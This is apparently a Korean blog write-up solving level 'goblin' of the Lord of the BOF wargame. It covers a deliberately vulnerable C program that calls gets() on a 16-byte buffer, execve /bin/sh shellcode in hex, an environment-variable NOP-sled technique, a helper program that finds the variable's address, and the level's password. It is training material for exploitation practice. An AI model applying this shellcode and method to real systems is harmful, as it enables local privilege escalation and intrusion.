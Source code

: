 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [Wargame, LOB, Write-up]
article_header:
  type: cover
  image:
    src: 

---
```


## keyword : small buffer + stdin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```



------

### 0x01. Static Analysis



앞서 문제 cobolt와 다른점은 cobolt에서는 main함수의 argv로 입력값을 받았다면, 지금 문제는 gets를 이용하여 문제를 받는다. 따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.



------

### 0x02. Dynamic Analysis & Exploit



cobolt 문제와 동일하게 환경변수에 쉘코드를 넣고 문제를 풀어보자.



```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135809460.png" width="700px">

EUNICE 환경변수에 NOP슬라이드와 쉘코드를 넣는다.



```c
//env.c
main(){
    printf("%08x\n", getenv("EUNICE") );
}
```

EUNICE 환경변수의 주소를 구하는 프로그램을 만들어서



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135852712.png" width="400px">

EUNICE환경변수의 주소를 구해온다. (0xbffffc33)



<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/image-20180828135928174.png" width="600px">



**goblin / hackers proof**